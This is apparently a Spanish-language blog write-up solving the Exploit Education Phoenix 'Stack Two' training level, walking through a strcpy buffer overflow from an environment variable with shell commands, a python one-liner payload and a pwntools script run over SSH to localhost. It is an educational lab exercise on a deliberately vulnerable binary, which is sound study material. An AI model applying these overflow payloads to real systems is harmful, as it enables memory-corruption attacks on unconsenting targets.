 ```yaml
---
layout: single
title: "Stack Two"
permalink: /pwn/phoenix/stack-two/
parent: Phoenix
comments: true
excerpt: "Stack Two"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En **Stack Two** se introduce el uso de variables de entorno y cómo pueden ser manipuladas para explotar un desbordamiento de buffer.


## Análisis del código fuente

El objetivo es modificar la variable changeme con el valor **0x0d0a090a** Para lograrlo, el programa copia sin validación el contenido de la variable de entorno ExploitEducation al buffer locals.buffer, lo que abre la puerta a un buffer overflow.


```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bathroom, and you are Finnish when you get
 * out, what are you when you are in the bathroom?
 *
 * European!
 */

#include <err.h>    // Biblioteca para manejo de errores (errx).
#include <stdio.h>  // Biblioteca estándar para entrada/salida.
#include <stdlib.h> // Biblioteca estándar para funciones generales como getenv() y exit().
#include <string.h> // Biblioteca para funciones de manipulación de cadenas como strcpy().
#include <unistd.h> // Biblioteca para funciones del sistema operativo POSIX.

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa.

int main(int argc, char **argv) { 
  // Función principal, recibe argumentos de línea de comandos.

  struct { 
    char buffer[64];          // Define un buffer de 64 bytes para almacenar datos.
    volatile int changeme;    // Variable que debe modificarse mediante un exploit.
  } locals;                   // Agrupa estas variables dentro de la estructura 'locals'.

  char *ptr; 
  // Apuntador para almacenar el valor de una variable de entorno.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida definido en BANNER.

  ptr = getenv("ExploitEducation"); 
  // Obtiene el valor de la variable de entorno "ExploitEducation".
  if (ptr == NULL) { 
    // Verifica si la variable de entorno no está configurada.
    errx(1, "please set the ExploitEducation environment variable"); 
    // Muestra un mensaje de error y termina el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, ptr); 
  // Copia el contenido de la variable de entorno "ExploitEducation" en el buffer 'buffer'.
  // Vulnerabilidad: No verifica el tamaño del contenido, lo que permite un desbordamiento de buffer.

  if (locals.changeme == 0x0d0a090a) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x0d0a090a.
    puts("Well done, you have successfully set changeme to the correct value"); 
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n", locals.changeme); 
    // Si el valor no es el esperado, imprime el valor actual de 'changeme' y el valor deseado.
  }

  exit(0); 
  // Termina el programa correctamente con el código de salida 0.
}

```

**Ejecución del binario**

Si ejecutamos el binario sin definir la variable de entorno, aparece un mensaje de error que nos dice: Por favor, configure la variable de entorno ExploitEducation.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

Al definir la variable con 64 caracteres de A vemos que con esto ya nos da la respuesta de que la variable está en **0x00000000**

```jsx
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

```

**Confirmando el overflow**

Si añadimos BBBB (0x42 en ASCII) después de los 64 A, el valor de changeme cambia a **0x42424242** esto confirma que estamos sobreescribiendo la variable.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x42424242, we want 0x0d0a090a

```
**Explotación**

Ahora sobreescribimos con el valor solicitado **0x0d0a090a** cuidando el endianness (little-endian en x86): **\x0A\x09\x0A\x0D** y con esto confirmamos que se logra el reto


```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print "A"*64 + "\x0A\x09\x0A\x0D"')
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Explotación con Pwntools**

También podemos automatizar este proceso con un script en Python

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64
   6   │ payload += p32(0x0d0a090a)
   7   │ 
   8   │ # Establece conexión SSH
   9   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
  10   │ 
  11   │ # Configura la variable de entorno 'ExploitEducation'
  12   │ env_vars = {"ExploitEducation": payload}
  13   │ 
  14   │ # Ejecuta el programa remoto con la variable de entorno configurada
  15   │ process = ssh_connection.process(executable='/opt/phoenix/amd64/stack-two', env=env_vars)
  16   │ 
  17   │ # Captura y muestra la salida
  18   │ flag = process.recvall().decode()
  19   │ log.success("Output: " + flag)
  20   │ 
  21   │ # Cierra la conexión
  22   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process '/opt/phoenix/amd64/stack-two' on localhost: pid 583
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-two'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-two' on localhost (pid 583)
[+] Output: Welcome to phoenix/stack-two, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value
```

**Conclusión**

En Stack Two vimos cómo una variable de entorno puede ser aprovechada para provocar un desbordamiento de buffer y modificar variables internas del programa.

El reto refuerza dos ideas clave:

  - Las funciones inseguras como strcpy deben evitarse.

  - Variables de entorno pueden ser un vector de ataque si no se validan correctamente.

Con esta técnica pudimos manipular la variable changeme y completar el reto con éxito.